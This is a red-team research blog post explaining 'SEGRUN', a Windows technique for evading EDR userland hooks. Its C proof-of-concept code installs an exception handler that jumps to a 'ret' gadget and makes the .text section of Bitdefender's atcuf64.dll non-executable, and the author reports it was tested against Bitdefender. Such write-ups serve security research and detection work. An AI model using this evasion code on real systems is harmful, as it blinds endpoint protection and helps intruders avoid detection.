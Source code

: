 ```yaml
---
layout: post
title: "SEGRUN: Userland unhooking abusing exception handlers"
categories: research
tags: redteam
date: 2024-11-26 19:49:00 +0100
author: ikerl
---
```


Inspired by the DEFCON 31 talk in Las Vegas, delivered by Carlos Polop and Yago, I decided to explore a concept from their presentation to develop a new technique. This method, largely unfamiliar to me before, enables patching function hooks at the userland level used by AV/EDR systems, helping to evade detection by endpoint protection solutions.

## The Inspiration

The original DEFCON talk, [Exploring Linux Memory Manipulation for Stealth and Evasion](https://media.defcon.org/DEF%20CON%2031/DEF%20CON%2031%20presentations/Carlos%20Polop%20Yago%20Gutierrez%20-%20Exploring%20Linux%20Memory%20Manipulation%20for%20Stealth%20and%20Evasion%20Strategies%20to%20bypass%20Read-Only%20No-Exec%20and%20Distroless%20Environments.pdf), introduced an innovative technique for code execution in distroless environments, where everything typically runs in read-only mode and code execution is restricted. The talk showcased the [memdlopen](https://github.com/arget13/memdlopen) tool, which uses Linux signal handlers to intercept functions called by `dlopen`, enabling libraries to be loaded directly from memory instead of disk.

## The Idea

As a red team operator, I came up with the idea of using a similar `memdlopen` approach to unhook EDR trampolines in userland. While I cannot confirm if this technique is entirely new, I had not encountered it before.

EDRs commonly load a monitoring DLL into the processes they analyze. These DLLs modify system DLLs in memory, inserting trampolines that intercept calls to specific Windows API functions before execution. The trampolines redirect the execution flow of these monitored API functions to the EDR DLL, granting security systems deep visibility and control over program execution. By patching these trampolines, an attacker can bypass the EDR’s monitoring mechanisms, significantly complicating the detection and analysis of the targeted process.

Inspired by the `memdlopen` concept of using handlers to intercept exceptions, I developed a novel technique to evade userland hooks in Windows environments. This approach involves defining an exception handler and corrupting the EDR DLL to trigger controllable exceptions whenever the program accesses the monitoring code in that DLL.

## PoC

In this section, we list the steps required to apply this technique in detail.

### Defining the Exception Handler

The core of this method involves setting up an exception handler to manage all exceptions triggered during execution. When an exception occurs, the handler performs the following actions:

1. ROP to the `ret` function: The handler redirects the flow to a function that executes a simple `ret` instruction. This causes the program to return to the address where the exception was triggered, but with the instruction pointer (rip) incremented by one.

2. Resuming Execution: By performing this ROP, the program bypasses the exception and continues execution as if the interruption had not occurred, allowing the program to pass through the non-executable memory region (the EDR DLL) without actually executing any of its code.

This technique ensures that the EDR's monitoring hooks are bypassed while the normal operation of the target process continues without disruption.

Here is the implementation of the exception handler designed to manage exceptions that occur when the program attempts to execute memory mappings from the EDR DLL:

```c
LONG WINAPI TopLevelExceptionHandler(PEXCEPTION_POINTERS pExceptionInfo)
{
    DWORD_PTR ret_address = searchRetGadget(ret);
    if (ret_address == NULL)
    {
        exit(1);
    }

    DWORD exceptionCode = pExceptionInfo->ExceptionRecord->ExceptionCode;

    switch (exceptionCode) {
    case EXCEPTION_ACCESS_VIOLATION:
        printf("Access Violation Exception\n");
        break;
    case EXCEPTION_BREAKPOINT:
        printf("Breakpoint Exception\n");
        break;
    case EXCEPTION_INVALID_HANDLE:
        printf( "Invalid Handle Exception\n");
        break;
    default:
        printf("Unknown Exception\n");
        break;
    }

    CONTEXT* context = pExceptionInfo->ContextRecord;
    printf("Exception at: 0x%p\n", (void*)context->Rip);
    context->Rip = ret_address;
    SetThreadContext(GetCurrentThread(),context);
    return EXCEPTION_CONTINUE_EXECUTION;
}
```

### "ret" function definition

When an exception is handled, the exception handler performs a ROP to the `ret` function. This function executes the ret instruction in assembly, causing the program to return to the address where the exception occurred.

By doing this, the program traverses the memory section of the EDR DLL without ever executing any of its instructions. This ensures that the EDR’s monitoring code is effectively bypassed without interrupting the program's flow.

Below are the functions: one that performs the `ret` operation and another that searches memory for this function to execute the ROP after each exception is handled:

```c
void ret()
{
    return;
}

DWORD_PTR searchRetGadget(void (*func)()) {
    unsigned char* ptr = (unsigned char*)func;
    size_t len = 128;

    for (size_t i = 0; i < len; ++i)
    {
        if (ptr[i] == 0xc3) return (DWORD_PTR)&ptr[i];
    }

    return NULL;
}
```

### Corrupting the EDR DLL

With the exception handler implemented, the next step is to corrupt the EDR DLL. This ensures that whenever the program encounters a trampoline and execution is redirected to the EDR’s function analyzer, a segmentation fault (segfault) is triggered.

There are several ways to achieve this:

- Modify memory permissions: Change the permissions of the memory where the EDR DLL is loaded.
- Overwrite memory contents: Configure the DLL’s memory as writable and use any function capable of overwriting that region with null bytes.

In my case, I used `VirtualProtect` to mark the EDR DLL’s memory region as non-executable. The tests were conducted using the `atcuf64.dll` DLL from Bitdefender:

```c
    SetUnhandledExceptionFilter(TopLevelExceptionHandler);

    HMODULE hmodule = GetModuleHandleA("atcuf64.dll"); 
    printf("Module => %p\n", hmodule);
    DWORD textSize = NULL;
    HMODULE textAddress = NULL;
    if (hmodule != NULL)
    {
        
        IMAGE_DOS_HEADER* dosHeader = (IMAGE_DOS_HEADER*)hmodule;
        IMAGE_NT_HEADERS* ntHeader = (IMAGE_NT_HEADERS*)((BYTE*)hmodule + dosHeader->e_lfanew);

        IMAGE_SECTION_HEADER* sectionHeader = IMAGE_FIRST_SECTION(ntHeader);
        for (int i = 0; i < ntHeader->FileHeader.NumberOfSections; ++i) {
            //printf("%s\n", sectionHeader[i].Name);
            if (strcmp((char*)sectionHeader[i].Name, ".text") == 0) {
                textAddress = hmodule +sectionHeader[i].VirtualAddress;
                textSize = sectionHeader[i].SizeOfRawData;
                printf(".text => 0x%p, size => %d\n", textAddress,textSize);
                break;
            }
        }
        
    }
    else {
        printf("modulehandle error\n");
        return -1;
    }

    if (!textAddress) {
        printf("Error calculating .text section\n");
        return -1;
    }
    
    DWORD old;
    VirtualProtect_t pVirtualProtect = (VirtualProtect_t)hlpGetProcAddress(hlpGetModuleHandle(L"KERNEL32.DLL"), (char*)"VirtualProtect");
    BOOL rv = pVirtualProtect(textAddress, (unsigned int)textSize - 1024 * 246, PAGE_READONLY, &old);
```

### How the Technique Works

At this stage, we have all the components needed to apply the technique and execute functions hooked by the EDR without the EDR detecting it.

Here’s how the program operates once the exception handler is set up, the EDR DLL’s memory is corrupted, and the necessary functions to perform the ROP to the `ret` gadget are implemented:

![](segrun1.png)

- When a hooked function is called, the trampoline executes, redirecting the execution flow to the EDR DLL.

- An exception is raised as this memory region is marked as non-executable:

![](segrun3.png)

- The exception handler manages the exception and performs the necessary ROP to the ret gadget. This process is repeated as many times as needed until the program successfully completes the call to the hooked function.

![](segrun4.png)

By leveraging this workflow, the technique ensures that the hooked function executes successfully without alerting the EDR or triggering its monitoring mechanisms. The complete PoC project can be found at the following link: [segrun](https://github.com/ikerl/segrun)

At the time of publication the prepared poc has been tested with Bitdefender to successfully evade userland hooks.
